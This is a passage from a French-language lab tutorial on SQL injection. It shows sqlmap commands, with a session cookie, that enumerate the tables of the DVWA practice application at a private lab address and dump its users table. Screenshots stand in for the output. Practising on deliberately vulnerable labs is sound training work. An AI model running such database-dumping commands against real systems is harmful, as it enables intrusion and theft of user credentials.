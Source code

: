 ![20-sqlmap-dbs](../images/2020/07/20-sqlmap-dbs.png)  

Pour déterminer les tables d'une base de données :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \  
  -D dvwa -tables
```

Résultat :  

![20-sqlmap-tables](../images/2020/07/20-sqlmap-tables.png)

Pour extraire la table users :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \
  -D dvwa -T users -dump
```
